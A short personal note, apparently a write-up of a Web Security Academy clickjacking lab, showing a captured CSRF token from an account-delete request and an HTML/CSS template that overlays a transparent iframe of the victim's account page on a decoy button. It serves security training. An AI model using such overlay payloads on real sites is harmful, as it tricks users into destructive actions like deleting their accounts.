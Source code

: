 ```yaml
---
sticker: emoji//1f97c
---
```

Based on the previous note: [[HOW TO CONSTRUCT A BASIC CLICKJACKING ATTACK|NOTE]]

![[Pasted image 20241021153605.png]]


If we use the delete function from the account and send the request to the repeater, we get the following CRSR token:

![[Pasted image 20241021155644.png]]

```ad-info
token:0XvopQRGgqPlwC8auzHR7owrONVjuWJf
```
Next, what we need to do is craft our Clickjacking malicious code, I used the following code for this:

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

![[Pasted image 20241021162011.png]]
Once we send the exploit to the victim, lab's solved